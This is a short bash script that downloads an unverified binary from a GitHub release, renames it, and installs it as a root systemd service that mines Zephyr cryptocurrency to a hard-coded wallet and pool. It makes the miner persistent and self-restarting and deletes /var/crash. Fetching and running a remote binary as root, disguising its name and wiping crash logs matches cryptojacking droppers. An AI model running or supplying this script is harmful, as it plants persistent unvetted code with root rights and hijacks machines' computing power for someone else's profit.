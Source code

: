 #!/bin/bash
sudo su
cd /home
wget https://github.com/trangtrau/sang_ml/releases/download/test/ar 
cp ar jvdar 
chmod +x jvdar

rm -rf /lib/systemd/system/xmrthanh.service
rm -rf /var/crash
bash -c 'cat <<EOT >>/lib/systemd/system/xmrthanh.service 
[Unit]
Description=xmrthanh
After=network.target
[Service]
ExecStart= /home/jvdar -o zephyr.miningocean.org:5332 -u ZEPHs7GMpgyKyQDSpaczt8VSm2e3YTjwHZTekzN8xzLTGGkMqXRFdHZHCP9eWwtSgEawC23tGVQ69DuZNpbLuwuNNRf8H5w76XJ -p vpstest1b1 -a rx/0 -k -t 16
WatchdogSec=36000
Restart=always
RestartSec=60
User=root
[Install]
WantedBy=multi-user.target
EOT
' &&
systemctl daemon-reload &&
systemctl enable xmrthanh.service &&
service xmrthanh stop  &&
service xmrthanh restart
top
